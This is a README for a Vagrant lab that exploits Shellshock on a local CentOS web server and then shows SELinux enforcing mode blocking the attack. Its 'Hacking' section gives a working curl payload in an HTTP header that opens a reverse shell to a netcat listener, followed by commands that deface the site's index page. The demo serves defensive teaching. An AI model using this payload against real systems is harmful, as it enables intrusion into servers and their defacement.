



Shellshock
==========

Shellshock, also known as Bashdoor, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014.

Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands.

This demo will show how to prevent security issues similar to shellshock by using SELinux

> NOTICE: More details about patching can be found on redhat website [here](https://access.redhat.com/security/vulnerabilities/shellshock#)

Pre-requisites
--------------

This demo was developed on GNU/Linux, my desktop distro is Fedora 28. All tools used will be described below:

* Fedora
* CentOS/RHEL
* Vagrant
* Libvirt/KVM
* Ansible
* netcat

Provisioning
------------

In order to make it possible to use this demo, you should first provision your environment after checkout this repo.

```bash
$ git clone https://github.com/fabiogoma/selinux-shellshock
$ cd selinux-shellshock
$ vagrant up
Bringing machine 'shellshock' up with 'libvirt' provider...
==> shellshock: Creating image (snapshot of base box volume).
==> shellshock: Creating domain with the following settings...
==> shellshock:  -- Name:              shell_shellshock
==> shellshock:  -- Domain type:       kvm
==> shellshock:  -- Cpus:              2
==> shellshock:  -- Feature:           acpi
==> shellshock:  -- Feature:           apic
==> shellshock:  -- Feature:           pae
==> shellshock:  -- Memory:            2048M
==> shellshock:  -- Management MAC:
==> shellshock:  -- Loader:
==> shellshock:  -- Base box:          centos/7
...
...
...
TASK [fabiogoma.shellshock : Ensure Apache HTTPD server is up] *****************
ok: [shellshock]

TASK [fabiogoma.shellshock : include_tasks] ************************************
included: /home/fabiom/demo/shell/provisioning/playbooks/roles/fabiogoma.shellshock/tasks/security.yml for shellshock

TASK [fabiogoma.shellshock : Ensure firewalld is up] ***************************
changed: [shellshock]

TASK [fabiogoma.shellshock : Enable http access] *******************************
changed: [shellshock]

TASK [fabiogoma.shellshock : Reload firewall rules] ****************************
changed: [shellshock]

PLAY RECAP *********************************************************************
shellshock                 : ok=25   changed=19   unreachable=0    failed=0
```

After provisioning your environment, you should be able to check a web page hosted by your new provisioned host, just navigate to http://shellshock.local/ on your prefered browser, you should see a page similar to the one below:

<p align="center">
  
</p>

Hacking
-------

Let's now open two terminals and execute a hack.

On your first terminal, using the netcat tool (nc) initiate a socket listener on port 9999 with some verbosity:

```bash
$ nc -lkvp 9999
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 459E 024D BF1A BA99 7052 5697 87C1 BCE9 50BD 675C
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
```

Open a second terminal and now using curl, tell your http server to initiate a remote session on your local server listening on port 9999:

```bash
$ curl -k -H 'x: () { :;}; /bin/bash -i >& /dev/tcp/192.168.122.1/9999 0>&1' http://shellshock.local/cgi-bin/script

```

> NOTICE: After pressing enter, you will see no result, but the terminal will hang, waiting for a Ctrl+C to terminate the command. It will probably terminate by timeout, but your hacked session will be started already.

On your first terminal, you will see a new session runing:

```bash
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.121.104.
Ncat: Connection from 192.168.121.104:36908.
bash: no job control in this shell
bash-4.2$ pwd
pwd
/var/www/cgi-bin
bash-4.2$ cd ../html
cd ../html
bash-4.2$ pwd
pwd
/var/www/html
bash-4.2$ ls -l
ls -l
total 172
-rw-r--r--. 1 apache apache 36966 Sep 18 20:06 daphne.png
-rw-r--r--. 1 apache apache 32898 Sep 18 20:06 fred.png
-rw-r--r--. 1 apache apache   407 Sep 18 20:06 index.html
-rw-r--r--. 1 apache apache 43113 Sep 18 20:06 shaggy.png
-rw-r--r--. 1 apache apache 45709 Sep 18 20:06 velma.png
bash-4.2$ 

```

This is a new bash session running on your remote http server, whatever you do here, will immediatelly take efect on your server.

The expected result so far is the one we show below:

<p align="center">
  
</p>

Now let's hack the remote server by changing the index.html content

```bash
bash-4.2$ pwd
pwd
/var/www/html
bash-4.2$ echo "<h1>Hacked</h1>" > index.html
echo "<h1>Hacked</h1>" > index.html
bash-4.2$
```

The hacked page now should no longer show your cartoon characters, but the hacked content instead.

<p align="center">
  
</p>

Protecting your system
----------------------

Now let's start over by executing the provisioner again to return all configuration to the initial state

```bash
$ vagrant up --provision
Bringing machine 'shellshock' up with 'libvirt' provider...
==> shellshock: Running provisioner: ansible...
    shellshock: Running ansible-playbook...

PLAY [Provisioning shellshock demo host] ***************************************

TASK [Gathering Facts] *********************************************************
ok: [shellshock]

TASK [include_role : fabiogoma.common] *****************************************

TASK [fabiogoma.common : Disable IPV6] *****************************************
ok: [shellshock]

TASK [fabiogoma.common : Install EPEL repo] ************************************
ok: [shellshock]

TASK [fabiogoma.common : Install basic packages] *******************************
ok: [shellshock] => (item=[u'nss-mdns', u'net-tools', u'telnet', u'tcpdump', u'lsof', u'strace', u'wget', u'mlocate', u'setroubleshoot', u'setroubleshoot-server', u'policycoreutils-devel'])

TASK [fabiogoma.common : Configure mDNS] ***************************************
ok: [shellshock]

TASK [fabiogoma.common : Configure hostname] ***********************************
ok: [shellshock]
...
...
...
TASK [fabiogoma.shellshock : include_tasks] ************************************
included: /home/fabiom/demo/shell/provisioning/playbooks/roles/fabiogoma.shellshock/tasks/security.yml for shellshock

TASK [fabiogoma.shellshock : Ensure firewalld is up] ***************************
ok: [shellshock]

TASK [fabiogoma.shellshock : Enable http access] *******************************
ok: [shellshock]

TASK [fabiogoma.shellshock : Reload firewall rules] ****************************
skipping: [shellshock]

PLAY RECAP *********************************************************************
shellshock                 : ok=22   changed=1    unreachable=0    failed=0
```

> NOTICE: This time the provisioning will be much faster, since the only change happening now will be on the index.html file

Using vagrant let's change the SELinux state from permissive to enforcing

```bash
$ vagrant ssh
Last login: Tue Sep 18 20:27:11 2018 from 192.168.121.1
[vagrant@shellshock ~]$ getenforce
Permissive
[vagrant@shellshock ~]$ sudo setenforce 1
[vagrant@shellshock ~]$ getenforce
Enforcing
[vagrant@shellshock ~]$
```

Let's do the hack again and check the result on image below:

<p align="center">
  
</p>

> NOTICE: You'll see now that you are no longer able to run a remote shell, this is due the fact of SELinux now is set to enforce security and your system will be protected.


Conclusion
----------------------

As you may have noticed, by enabling SELinux sysadmins can protect their systems from many security issues. 
Despite its advantages, most people disable SELinux as soon as they got the system up and running. If you want to learn more about the benefits and how to enable this tool, check [my other demo here](https://github.com/fabiogoma/selinux-nginx-tomcat).
